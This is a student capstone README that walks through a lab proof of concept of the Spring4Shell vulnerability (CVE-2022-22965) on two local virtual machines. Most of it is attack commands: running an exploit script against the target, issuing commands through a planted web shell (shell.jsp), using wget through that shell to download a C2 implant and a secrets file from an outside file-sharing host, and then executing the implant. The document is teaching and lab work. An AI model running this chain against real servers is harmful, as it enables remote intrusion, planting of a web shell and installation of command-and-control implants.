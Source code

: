 # 590J Captsone Project
Group: **Counting Sheep**

Brendan Henrich

Andrew Maldonado

Basundhara Chakrabarty


**Spring4shell Implant Delivery**

CVE-2022-22965

## Proof of Concept Setup
2x Virtual Machines [Host OS Windows 10] running Ubuntu 20.04.4 LTS
Local network DCHP 10.0.2.0/24

Attacker IP = 10.0.2.15

Target IP = 10.0.2.4

Target is running vulnerable Spring server !

**Instructions:**
```
Start here: https://medium.com/geekculture/spring4shell-exploit-walkthrough-9843c0244b68
On Target: [run the vulnerable spring server]
cd spring4shell
sudo docker run -p 80:8080 spring4shell
```
On Attacker: [launch the attack]:
```
cd spring4shell
python3 exploit.py --url 'http://10.0.2.4/helloworld/greeting'
```

**WEB SHELL COMMANDS:**
```
lynx -dump http://10.0.2.4/shell.jsp?cmd=whoami
lynx -dump http://10.0.2.4/shell.jsp?cmd=echo%20spring4shell
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls%20-l%20/
```

**LOAD the implant:**
```
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/XGHo3dJDb31/c2_implant
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/nScoTrBugqc/secrets.json
```

** RUN the implant:**
lynx -dump http://10.0.2.4/shell.jsp?cmd=%2e%2fc2_implant
